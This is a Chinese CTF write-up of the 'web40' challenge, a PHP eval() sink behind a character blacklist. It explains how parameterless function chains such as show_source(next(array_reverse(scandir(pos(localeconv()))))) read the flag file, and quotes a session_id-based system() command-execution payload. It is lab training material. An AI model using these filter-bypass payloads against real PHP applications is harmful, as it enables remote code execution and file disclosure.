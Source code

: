 ```yaml
---
layout: post
title:  "[命令执行]web40"
date:   2021-01-13 22:50:00 +0800
categories: CTF
---
```


### Web40

```php
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
    eval($c);
  }
    
}else{
  highlight_file(__FILE__);
}
```

**考点：无参数RCE**

> 无参数的意思可以是a()、a(b())或a(b(c()))，但不能是a('b')或a('b','c')，不能带参数。

这个地方ban的括号是假的...，中文括号，因此带括号的函数都能用。但是过滤的东西还是非常多，常用的`*`、`$`、`'`、`"`、`` ` ``都被ban掉了。因此要想其他办法了

~~我TM直接查看hint~~

> ```
> show_source(next(array_reverse(scandir(pos(localeconv()))))); 
> ```
>
> GXYCTF的禁止套娃 通过cookie获得参数进行命令执行
>```
>c=session_start();system(session_id());
>passid=ls
>```

看样子是构建一个session，然后执行系统函数讲session_id的参数执行

一个一个函数分析吧

```php
pos() // 输出数组中当前元素的值
localeconv() // 函数返回一包含本地数字及货币格式信息的数组。
// localeconv()  函数会返回以下数组元素：
// [decimal_point] - 小数点字符
// [thousands_sep] - 千位分隔符
// [int_curr_symbol] - 货币符号 （例如：USD）
// [currency_symbol] - 货币符号 （例如：$）
// [mon_decimal_point] - 货币小数点字符
// [mon_thousands_sep] - 货币千位分隔符
// [positive_sign] - 正值字符
// [negative_sign] - 负值字符
// [int_frac_digits] - 国际通用小数位
// [frac_digits] - 本地通用小数位

// 这里pos() 拿到了 "." 
// 因此构造出了 sacndir('.')
scandir() // 获取目录下的文件 
array_reverse() // 以相反的顺序返回数组 第二个元素变为flag
next() // 返回数组中下一个元素 这里返回flag
show_source() // 函数对文件进行语法高亮显示 等同于highlight_file()
```

OK，拿到了flag